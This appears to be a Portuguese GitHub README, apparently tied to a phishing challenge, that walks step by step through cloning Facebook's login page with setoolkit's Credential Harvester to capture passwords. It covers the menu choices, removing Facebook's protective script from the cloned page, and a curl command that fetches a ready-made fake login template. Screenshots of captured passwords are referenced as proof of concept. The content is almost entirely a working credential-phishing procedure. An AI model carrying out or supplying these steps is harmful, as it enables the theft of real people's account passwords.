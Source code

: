 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Resutados

![Alt text](./passwd.png "Optional title")

### Prova de conceito
![Alt text](./phishing_facebook.png "Resultado")

# Atualização

Devido a CORS e segurança do facebook ao usar o ```setoolkit``` para clona a login page, acaba que ele referencia na index.html o script que contém a proteção.

Para resolver este problema localizei o index.html clonado e removi o script.

Você pode remover também em ```/root/.set/web_clone/index.html```

Caso queira fazer da forma fácil, siga os passos abaixo:

- Crie um diretorio de nome tool no home
```mkdir /home/tool/```
- Acesse este diretorio cd /home/tool/
- Baixe o login page do facebook com wget ou curl
```curl https://raw.githubusercontent.com/percioandrade/cibersecurity-desafio-phishing/refs/heads/master/facebook_login_template.html > index.html```
- Acesse o setoolkit e siga a sequencia de imagens abaixo:

![Alt text](./01_up.png "")

![Alt text](./02_up.png "")

![Alt text](./03_up.png "")

![Alt text](./04_up.png "")

![Alt text](./05_up.png "")

![Alt text](./06_up.png "")

![Alt text](./07_up.png "")

![Alt text](./08_up.png "")